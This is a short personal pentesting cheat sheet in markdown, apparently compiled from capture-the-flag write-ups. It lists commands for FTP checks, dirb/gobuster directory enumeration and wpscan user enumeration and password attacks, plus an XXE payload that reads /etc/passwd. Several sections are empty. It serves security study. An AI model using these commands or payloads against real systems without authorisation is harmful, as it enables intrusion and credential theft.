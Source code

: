 ```yaml
---
title: "Pentesting CheatSheet"
author: "Me"
date: "November 03, 2021"
output: html_document
---
```


# Pentesting CheatSheet
{:.no_toc}

This "CheatSheet" aims to provide a global vision of the various tools and techniques used in the writeups, so that I can easily reuse them (there are links to machines).

Here's the content so far:

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# 21 - FTP
- Check if anonymous FTP is allowed (user *anonymous*, blank password)
- Known vulnerable versions: ProFTPD 1.3.3c, vsFTPd 2.3.4

# 80 - HTTP

## Directories and files enumeration
- Directories and files enumeration with **dirb** (-r for non recursive):

````
sudo dirb http://targetIP -r
``````

- Directories and files enumeration with **gobuster**:

````
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist -x php # looks for php files
``````
Example: BountyHunter

- Directories and files enumeration with **wpscan** (for Wordpress):

````
sudo wpscan --url targetIP # basic scan
sudo wpscan --url targetIP -e u # enumerate users
sudo wpscan --url targetIP -passwords file/path/passwords.txt # password attack
`````
Example: Basic Pentesting: 1

- If the CMS is Wordpress: check **wp_admin_shell_upload**. Example: Basic Pentesting: 1


## XXE Injection

Does the application parses XML? If yes, it might be vulnerable to XXE injection. POC:

````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
`````

Example: BountyHunter


## SQL Injection

## Login Bruteforcing

# 139, 445 - SMB



